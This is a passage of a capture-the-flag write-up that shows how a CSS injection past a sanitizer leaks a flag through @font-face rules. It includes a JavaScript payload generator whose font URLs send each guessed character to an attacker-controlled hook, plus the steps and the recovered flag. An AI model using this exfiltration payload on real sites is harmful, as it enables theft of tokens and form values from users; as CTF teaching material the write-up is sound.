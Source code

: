 ```css
/* This is what is rendered on the browser */
#sanitized:before { 
    font-family: monospace; 
    color: #224; 
    content: "<div is=">} body{ background: red;}<\/div>" 
}
```

This means that now we can inject arbitrary CSS, and just have to craft a payload for CSS exfiltration. However, note that the following CSP is applied in the `index.js` file, preventing CSS exfiltration via the `background` source.

```js
res.setHeader('Content-Security-Policy', `script-src 'self' 'nonce-${nonce}'; style-src 'nonce-${nonce}'; object-src 'none'; img-src 'none';`);
```

If you do a little bit of googling, you will find that for CSS exfiltration, we usually either exfiltrate via background urls or font urls, since background sources are not permitted by the csp, we have to use `font-src`.

*[Jorian discovered a super interesting way of performing CSS exfiltration during the CTF, here is the write up](https://jorianwoltjer.com/blog/p/ctf/x3ctf-blogdog-new-css-injection-xs-leak)*

After some tinkering, I ended up with this function to leak the next character of the flag, given a prefix.
```js
function gen(prefix) {
  return `
                  @font-face {
 font-family: leak-${prefix[prefix.length - 1]};
 src: url(${hook}?q=${prefix[prefix.length - 1]});
}

    input[name="${name}"][value*="${prefix}"] {
              font-family: leak-${prefix[prefix.length - 1]};
            }`;
}
```

Careful readers may notice that the code actually removes the double quotes in the above code, moreover that makes us unable to use the `{` and `}` character because of how CSS syntax works.

Well does that mean we can't construct the prefix of `x3c{`, and can't get the flag? Well, not necessarily. We can guess from the middle or some part inside the flag, personally I decided to first look for the underscore `_` character, as it is one of the most commonly found characters in a CTF flag.

After getting the portion of the flag after the first underscore `_` character, we can actually modify the payload to exfiltrate the suffix instead of the prefix, and that is left as an exercise to the reader.

So this is the whole process for getting the flag.
1. Ensure a character of your choice is in the flag(by treating it as prefix), I will use `_` here
2. Leak the portion of flag after your chosen character --> `_****_****}`
3. Leak the portion of flag before your chosen character --> `{**_***_`
4. Combine the leaked portions to get `x3c{did_u_find_a_d0m9ur1fy_0d4y_0r_is_1t_ju57_4_51lly_br0w53r_qu1rk}`
